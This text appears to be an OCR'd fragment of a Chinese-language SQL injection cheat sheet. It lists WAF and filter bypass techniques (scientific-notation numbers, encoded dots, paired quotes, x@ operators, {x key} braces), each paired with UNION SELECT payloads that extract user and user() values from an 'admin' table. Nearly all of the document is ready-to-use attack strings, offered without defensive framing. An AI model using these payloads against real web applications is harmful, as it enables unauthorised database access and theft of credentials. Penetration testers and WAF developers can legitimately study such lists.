 ```bash
# e 
# .



id= 2e0 union select 1,user,3 from admin

id= 1.union select 1,user,3 from admin

id= 1.1union select 1,user,3 from admin

# 还有:   %1%2E   %2%2E    %3%2E   

id= 1'  %1%2Eunion select user(),2 %23
```



(4)单引号双引号

```bash
id= 1'  'xx'union select user(),2 %23

id= 1'  ""union select user(),2 %23

# 需要闭合的先闭合，然后成对使用单双引号
```



(5)x@

假设SQL语句为：`select * from article where id = '2'`

```bash
# %@ *@ -@ +@ /@ <@ =@ >@ ^@ |@ %26@ -@'' -@"" -@@new


id='  -@ union select 1,2 ,3 %23

id='  %26@ union select 1,2 ,3 %23

id='  -@'' union select 1,2 ,3 %23

id=' -@@new  union select 1,2 ,3 %23
```



(6){x key}

假设SQL语句为：`select * from article where id = '2'`

```
id=' and {x -2} union select 1,2,3 %23

id='  ||  !{`x` -2} union select 1,2,3 %23

id='  ||  !{`x` -@} union select 1,2,3 %23

id='  and {x  id} union select 1,2,3 %23

id='  and {x  id} union select 1,2,3 %23

id=' and {id (select/**/--0)}union select 1,2,3 %23

```
